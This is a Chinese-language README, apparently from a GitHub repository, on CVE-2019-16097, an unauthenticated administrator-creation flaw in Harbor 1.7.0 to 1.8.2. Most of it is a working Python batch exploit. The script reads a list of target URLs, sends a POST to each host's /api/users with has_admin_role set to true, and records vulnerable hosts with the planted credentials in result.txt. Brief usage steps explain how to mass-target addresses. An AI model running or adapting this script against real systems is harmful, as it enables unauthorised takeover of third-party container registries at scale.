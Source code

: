 # CVE-2019-16097 Harbor未授权创建管理员漏洞

### 一、漏洞简介

近日，镜像仓库Harbor爆出任意管理员注册漏洞，攻击者在请求中构造特定字符串，在未授权的情况下可以直接创建管理员账号，从而接管Harbor镜像仓库。我们得到消息，第一时间对该漏洞进了验证，官方已发布公告说明，最新的1.7.6和1.8.3已修复此漏洞，请使用到的用户尽快升级至安全版本。

Harbor是一个用于存储和分发Docker镜像的企业级Registry服务器。Harbor 1.7.0版本至1.8.2版本中的core/api/user.go文件存在安全漏洞。攻击者通过在请求中添加关键参数，即可利用该漏洞创建管理员账户，从而接管Harbor镜像仓库。

### 二、影响范围

Harbor 1.7.0版本至1.8.2

### 三、复现过程

https://github.com/ianxtianxt/CVE-2019-16097

**批量漏洞利用脚本**

cve-2019-16097-batch.py：


```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
# author:rocky
# datetime:2019-09-21 00:43
# software: PyCharm


import requests
import logging
import threading

__author__ = 'rocky'
__date__ = '2019/9/21'


def poc(url):
    bug_url = url + "/api/users"
    payload = '{"username":"test","email":"939555035@qq.com","realname":"test","password":"qq123123","comment":"1","has_admin_role":true}'
    header = {"Content-Type": "application/json", "Accept": "application/json"}
    try:
        r = requests.post(bug_url, data=payload, headers=header, timeout=10)
        print bug_url
        print r.status_code
        if r.status_code == 201:
            print "[!] This URL is Vulnerable !"
            print "[!] username: test   password: qq123123"

            f.write(url + "[!] This URL is Vulnerable ! [!] username: test   password: qq123123 " + "\n")
        else:
            print "[-] It's nothing."

    except Exception as e:
        logging.warning(bug_url)
        print e


if __name__ == '__main__':
    print "CVE-2019-16097-batch"
    print "author: " + __author__
    print "date: " + __date__
    f = open("result.txt", "a")
    url_list = [i.replace("\n", "") for i in open("url.txt", "r").readlines()]
    for url in url_list:
        threading.Thread(target=poc, args=(url,)).start()
        while 1:
            if (len(threading.enumerate()) < 50):
                break
```

result.txt：


```
http://192.168.50.233[!] This URL is Vulnerable ! [!] username: test   password: qq123123 
```

url：


```
http://192.168.50.233
```

在 url.txt文件 批量添加目标地址

`http://1.1.1.1 http://2.2.2.2`

使用python 运行 此脚本 在 result.txt 可以看到最终的验证结果